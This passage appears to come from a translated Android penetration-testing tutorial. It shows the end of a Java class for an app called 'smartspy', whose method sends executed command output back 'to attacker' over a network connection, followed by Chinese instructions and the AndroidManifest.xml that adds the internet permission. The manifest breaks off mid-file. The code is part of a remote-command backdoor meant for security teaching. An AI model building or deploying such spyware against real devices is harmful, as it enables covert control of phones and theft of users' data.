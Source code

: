 ```

            }

          } catch (Exception e) {
            e.printStackTrace();
        }

      }
    };
    thread.start();

  }

  //method to send the final string value of the command output to attacker

    private void sendOutput(String commandoutput) {

     if (out != null && !out.checkError()) {
       out.println(commandoutput);
       out.flush();
     }

    }

}
```******  ******# 注册权限

由于应用正在处理网络连接，我们需要在`AndroidManifest.xml`中添加以下互联网权限：

```
 <uses-permission android:name="android.permission.INTERNET"></uses-permission>

```

将前面的权限添加到`AndroidManifest.xml`文件后，代码应该如下所示：

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.androidpentesting.smartspy" >

    <uses-permission android:name="android.permission.INTERNET"></uses-permission>
    <application
        android:allowBackup="true"
        android:icon="@drawable/ic_launcher"
        android:label="@string/app_name"
        android:theme="@style/AppTheme" >
        <activity
            android:name=".MainActivity"
            android:label="@string/app_name" >
            <intent-filter>
              <action android:name="android.intent.action.MAIN" />
